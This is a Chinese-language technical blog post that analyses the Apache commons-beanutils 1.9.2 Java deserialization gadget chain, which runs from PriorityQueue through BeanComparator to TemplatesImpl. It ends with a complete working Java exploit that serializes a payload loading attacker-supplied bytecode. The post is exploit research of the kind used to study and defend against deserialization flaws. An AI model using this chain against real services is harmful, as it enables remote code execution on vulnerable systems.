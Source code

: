 ```yaml
---
title: Commons-beanutils
date: 2021-12-23 23:49:13
categories:
- Java
tags:
- Deserialization exploit chain
toc: true
notshow: true
---
```


# 流程图

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640269301523-ee4fae93-1678-4d69-839b-59448150799a.jpeg)



# 分析与复现

## 0x00 前置知识

### 1. Java Bean

具体可见：[JavaBean](https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680)

### 2. commons-beanutils

commons-beanutils 是 Apache 提供的一个用于操作 JAVA bean （普通 JAVA 类对象）的工具包。里面提供了各种各样的工具类，让我们可以很方便的对 bean 对象的属性进行各种操作。

commons-beanutils 中提供了一个静态方法 PropertyUtils.getProperty，让使用者可以直接调用任意JavaBean的getter方法，比如：

```java
PropertyUtils.getProperty(new Cat(), "name");
```

此时，commons-beanutils 会自动找到 name 属性的 getter 方法，也就是 getName，然后调用，获得返回值。

除此之外，PropertyUtils.getProperty 还支持递归获取属性，比如a对象中有属性b，b对象中有属性c，我们可以通过PropertyUtils.getProperty(a, "b.c");的方式进行递归获取。

除了 PropertyUtils 之外，commons-beanutils 还提供了很多别的类：

1. MethodUtils ：通过反射对对象的方法做各种各样的操作。
2. ConstructorUtils ：通过反射对对象的构造方法做各种操作。

1. PropertyUtils ：通过反射对对象的属性做各种操作。
2. BeanUtils：通过反射提供了Bean对象的一些便捷操作方法。

1. ConvertUtils ：提供了数据类型相互转换的一些方法。
2. ....

具体的使用可见：[commons-beanutils使用手册](https://www.jianshu.com/p/ae803ed938e5)

## 0x01 概述

### 1. 利用版本

commons-beanutils 1.9.2

### 2. 限制

无



## 0x02 调用链分析

在前面的 CC 链中我们知道，调用 TemplatesImpl.newTransformer 方法可以进一步调用到后面的 ClassLoader.loadClass

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640267454135-438ef425-8b92-4145-9331-bf896c962cee.png)

也就是说，哪里调用了 newTransformer，哪里就能够走完后面这一条链，在 CC3 中我们找到了 TrAXFilter 的构造函数。实际上我们在 IDEA 中进一步向上寻找时，还能够找到别的方法，就比如这个 getOutputProperties 方法。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640267755778-199f54fa-5db9-4b9d-8561-37f65bd39ece.png)

CB 中的 BeanComparator 类提供了一个 compare 方法，该方法用于比较两个 JavaBean 是否相等，compare 方法中调用了 PropertyUtils.getProperty 方法。我们知道 PropertyUtils.getProperty 最终会调用某个对象的 getXXX 方法。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640267516289-c4175bb6-914d-4bce-af26-1d5e9e22fb42.png)

这样一来，使用 PropertyUtils.getProperty 来调用 TemplatesImpl.getOutputProperties 方法，就可以走完后面的 ClassLoader 了。

另外，在 CC4 那一条链中，我们知道 PriorityQueue.readObject 会调用 compare 方法，正好对应这里的 BeanComparator.compare。因此整条链就走完了

具体调用链如下：

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640269321250-560542fa-5bcf-4977-bc69-bd02d60669d8.png)

## 0x03 exp 编写：

需要注意的是，需要调用的方法为 getOutputProperties ，如果使用 PropertyUtils.getProperty 来调用，传入的字符串需要为 "outputProperties"(第一个字母为小写)。

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CB {
    public static void main(String[] args) throws Exception{
        TestCB();
        unserialize("abc.ser.bin");
    }

    public static void TestCB() throws Exception {
        Path path = Paths.get("C:\\tmp\\Calc2.class");
        byte[] bytes = Files.readAllBytes(path);
        byte[][] bytes1 = {bytes};
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",bytes1);
        setFieldValue(templates,"_name","aaa");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue();

        setFieldValue(priorityQueue,"comparator",null);

        priorityQueue.add("1");
        priorityQueue.add("1");

        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});

        setFieldValue(priorityQueue,"comparator",beanComparator);
        serialize(priorityQueue);

    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("abc.ser.bin"));
        oos.writeObject(o);
    }

    public static void unserialize(String filePath) throws Exception{
        ObjectInputStream ins = new ObjectInputStream(new FileInputStream(filePath));
        ins.readObject();
    }
}
```

## 0x04 总结

commons-beanutils 这条链提供了另一种寻找调用链的方式——Java Bean，getProperty 可以进一步调用 get 开头的方法。commons-beanutils 这些便捷操作的实现，本质上也是使用了反射机制，一旦使用了反射，就不可避免出现容易被攻击者利用的情况，也算是一个为了高效牺牲了安全的例子。



# 参考资料

- [JavaBean](https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680)
- [CommonsBeanutils与无commons-collections的Shiro反序列化利用](https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html)

- [commons-beanutils使用手册](https://www.jianshu.com/p/ae803ed938e5)